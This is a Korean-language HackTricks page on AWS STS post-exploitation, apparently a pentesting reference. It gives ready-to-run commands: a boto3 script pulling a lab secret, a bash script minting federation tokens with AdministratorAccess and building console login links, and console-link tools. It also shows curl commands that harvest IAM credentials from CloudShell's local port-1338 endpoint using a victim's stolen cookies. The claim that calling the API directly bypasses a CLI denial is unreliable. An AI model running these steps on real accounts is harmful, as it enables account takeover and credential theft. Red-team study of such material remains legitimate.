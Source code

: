 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

자세한 정보:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### 새로운 방법 2024년 12월: 웹 콘솔 링크 요구 사항 우회, HTTPS POST 요청을 통해 SecretsManager API에 직접 비밀 얻기 (로그인 링크 또는 웹 콘솔 없음)

어제 제출된 PR로 다가오는 시험(ARTE: ex16x41)을 위해 제출했지만, PR이 표시되지 않는 것 같아 잘못 제출한 것 같으니 다시 시도해 보겠습니다:
이 방법을 사용하면 URL을 열거나 로그인 링크를 형식화하거나 CLI / 웹 콘솔을 사용하는 요구 사항을 완전히 우회할 수 있습니다.
그렇다면 여기서 우리는 무엇을 했나요?
AWS Secrets Manager API와 직접 상호작용하는 이 스크립트를 작성했습니다. 매우 간단하고 직관적입니다.
스크립트를 실행하면 AWS Secrets Manager 엔드포인트에 HTTPS POST 요청을 보냅니다.
https://secretsmanager.<region>.amazonaws.com/
GetSecretValue 요청은 POST 요청의 일부로 전송되며, SigV4 서명으로 인증됩니다(이는 boto3에 의해 관리됨).
Secrets Manager는 요청을 처리합니다:
AWS는 요청을 사용자 또는 역할에 연결된 IAM 정책에 대해 검증합니다(우리가 아는 바와 같이 비밀 값을 웹 콘솔에서만 볼 수 있습니다).
허용되면 Secrets Manager 서비스는 응답에서 요청된 비밀 값을 반환합니다.
**POC 데모:**
비밀 값을 가져오는 CLI AWS 명령은 액세스가 거부되어 작동하지 않습니다 ->
그러나 이미지에서 비밀 ID를 알고 플래그를 직접 추출하는 방법의 간단함을 볼 수 있습니다(이는 사용자 프로필로 로그인할 때 이전 단계에서 열거한 것입니다).
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
참고: 이 방법은 정책이 허용하는 경우 시나리오에 따라 보편적으로 사용될 수 있다고 생각합니다(하지만 CLI를 통해 허용하지 않는 정책의 제한을 우회합니다).
따라서 정책이 허용하는 경우 언제든지 사용할 수 있습니다(대체 테스트 옵션으로).
부가 참고: 서비스의 API와 직접 상호작용하는 동일한 방법을 사용하여 적용할 수 있는 다른 기술에 대해 궁금합니다. 여기와 같은 권한 상승 또는 사후 활용 프로세스에 대해요.
**코드:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# 사용자 정의 User-Agent 설정
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# secretsmanager API를 통해 비밀 값을 직접 검색
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### IAM 자격 증명에서 콘솔로

IAM 자격 증명을 얻었다면 다음 도구를 사용하여 **웹 콘솔에 액세스하는 것에 관심이 있을 수 있습니다**.\
사용자/역할은 **`sts:GetFederationToken`** 권한이 있어야 합니다.

#### 사용자 정의 스크립트

다음 스크립트는 기본 프로필과 기본 AWS 위치(정부 및 중국이 아님)를 사용하여 웹 콘솔에 로그인하는 데 사용할 수 있는 서명된 URL을 제공합니다:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler)로 **웹 콘솔 링크를 생성**할 수 있습니다.
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
IAM 사용자가 `sts:GetFederationToken` 권한을 가지고 있는지 확인하거나, 가정할 역할을 제공하십시오.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault)는 개발 환경에서 AWS 자격 증명을 안전하게 저장하고 액세스하는 도구입니다.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
**aws-vault**를 사용하여 **브라우저 콘솔 세션**을 얻을 수도 있습니다.
{% endhint %}

#### 콘솔에서 IAM 자격 증명으로

[**이 게시물에서 처음 발견됨**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), 웹 콘솔에 대한 접근을 타협하는 데 성공하면 (아마도 쿠키를 훔쳤고 .aws 폴더에 접근할 수 없었던 경우), **CloudShell**을 통해 해당 사용자의 IAM 토큰 자격 증명을 얻을 수 있습니다.

CloudShell은 **포트 1338의 문서화되지 않은 엔드포인트를 통해 IAM 자격 증명을 노출합니다**. 피해자의 세션 쿠키를 브라우저에 로드한 후, CloudShell로 이동하여 IAM 자격 증명을 얻기 위해 다음 명령을 실행할 수 있습니다.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
